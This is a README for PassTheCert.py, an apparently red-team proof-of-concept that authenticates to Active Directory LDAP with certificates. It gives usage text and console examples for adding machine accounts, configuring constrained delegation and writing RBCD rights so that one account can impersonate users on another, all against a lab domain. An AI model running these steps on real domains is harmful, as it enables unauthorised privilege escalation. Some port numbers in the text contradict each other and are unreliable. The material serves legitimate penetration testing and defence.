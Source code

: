 PassTheCert.py
==============

This POC implements LDAP certificate authentication for two impacket scripts:
[addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
and [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py).
You can perform LDAP certificate authentication both on port 686 and 389 (via a
StarTLS command). Please note that you need a functional LDAPS service on the
targeted domain controller to successfully use StartTLS on the LDAP port.

More information in the [accompanying blog post](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).

If you use [Certipy](https://github.com/ly4k/Certipy) to retrieve certificates, you can extract key and cert from the pfx by using:

```console
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key
```

Usage
-----

```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

usage: passthecert.py [-h] [-debug] [-port {389,636}] [-action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd}]] [-baseDN DC=test,DC=local]
                      [-computer-group CN=Computers] [-domain test.local] [-domain-netbios NETBIOSNAME] [-computer-name COMPUTER-NAME$] [-computer-pass password] [-delegate-to DELEGATE_TO]
                      [-delegate-from DELEGATE_FROM] [-dc-host hostname] [-dc-ip ip] -crt user.crt -key user.key

Manage domain computers and perform RBCD attack via LDAP certificate authentication

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -port {389,636}       Destination port to connect to. LDAPS (via StartTLS) on 386 or LDAPS on 636.

Action:
  -action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd}]

Manage Computer:
  -baseDN DC=test,DC=local
                        Set baseDN for LDAP.If ommited, the domain part (FQDN) specified in the account parameter will be used.
  -computer-group CN=Computers
                        Group to which the account will be added. If omitted, CN=Computers will be used,
  -domain test.local    Target domain fqdn
  -domain-netbios NETBIOSNAME
                        Domain NetBIOS name. Required if the DC has multiple domains.
  -computer-name COMPUTER-NAME$
                        Name of computer to add.If omitted, a random DESKTOP-[A-Z0-9]{8} will be used.
  -computer-pass password
                        Password to set to computerIf omitted, a random [A-Za-z0-9]{32} will be used.
  -delegated-services PROTO/FQDN,...
                        Constrained delegated services to configure in the new computer object (no space in the list).
RBCD attack:
  -delegate-to DELEGATE_TO
                        Target computer account the attacker has at least WriteProperty to
  -delegate-from DELEGATE_FROM
                        Attacker controlled machine account to write on the msDS-Allo[...] property (only when using `-action write`)

Authentication:
  -dc-host hostname     Hostname of the domain controller to use. If ommited, the domain part (FQDN) specified in the account parameter will be used
  -dc-ip ip             IP of the domain controller to use. Useful if you can't translate the FQDN.
  -crt user.crt         User's certificate
  -key user.key         User's private key
```

Actions
-------
* Manage Comuter
  * `add_computer`: Add a computer to the domain
  * `del_computer`: Delete a computer from the domain
  * `modify_computer`: Modify the password of the computer


* Constrained delegation attack
  * `add_computer -delegated-services`: Add a computer configured with constrained delegated services store in `msDS-AllowedToDelegateTo` new computer's attributes.


* RBCD attack
  * `read_rbcd`: Read `msDS-AllowedToActOnBehalfOfOtherIdentity` and resolve SIDs to `sAMaccountnames`
  * `write_rbcd`: Write new SIDs to `the msDS-AllowedToActOnBehalfOfOtherIdentity`
  * `remove_rbcd`: Remove specific entries
  * `flush_rbcd`: Flush all entries


* Misc
  * `whoami`: Return the user represented by the certificate

Examples
--------

Create a computer via LDAPS:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account DESKTOP-CKDRXFUX$ with password dzy3pjZqEH6f4Igql5dp4I5Dx8uA4PrV.
```

Create a computer via LDAPS with custom name/password:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -computer-pass SheSellsSeaShellsOnTheSeaShore
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account OFFSECMACHINE$ with password SheSellsSeaShellsOnTheSeaShore.
```

Create a computer via LDAPS with custom name and with constrained delegated services configured (cifs and ldap over SRV-MAIL.domain.local):

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -delegated-services cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[+] Adding constrained delegations to the new computer object: cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
[*] Successfully added machine account OFFSECMACHINE$ with password kUwdbHeuTw64QvaLzUYHrjfgE7hrRigS
```

Add a delegation right via StartTLS on port 389:

```console
$ python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -port 389 -delegate-to DESKTOP-CKDRXFUX$ -delegate-from SRV-MAIL$
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] SRV-MAIL$ can now impersonate users on DESKTOP-CKDRXFUX$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     SRV-MAIL$    (S-1-5-21-XXXXXXXXX-YYYYYYYYYY-WWWWWWWW-1109)
```

Credits
-------

- [JaGoTu (@jagotu)](https://twitter.com/jagotu) for [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
- [Remi Gascou (@podalirius_)](https://twitter.com/podalirius_) and [Charlie Bromberg (@_nwodtuhs)](https://twitter.com/_nwodtuhs) for [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py)
* [Impacket](https://github.com/SecureAuthCorp/impacket) by [SecureAuth](https://www.secureauth.com/)

